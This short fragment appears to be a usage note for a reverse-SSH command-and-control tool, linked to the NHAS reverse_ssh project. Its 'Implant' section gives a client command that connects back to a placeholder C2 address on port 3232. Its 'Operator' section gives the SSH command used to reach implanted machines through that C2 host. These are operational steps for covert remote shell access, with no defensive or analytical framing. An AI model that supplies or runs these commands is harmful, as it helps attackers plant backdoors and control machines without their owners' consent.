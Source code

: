 ## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Implant

```
> client -d <C2_IP>:3232
```

---
## References

- [Reverse SSH](https://github.com/NHAS/reverse_ssh)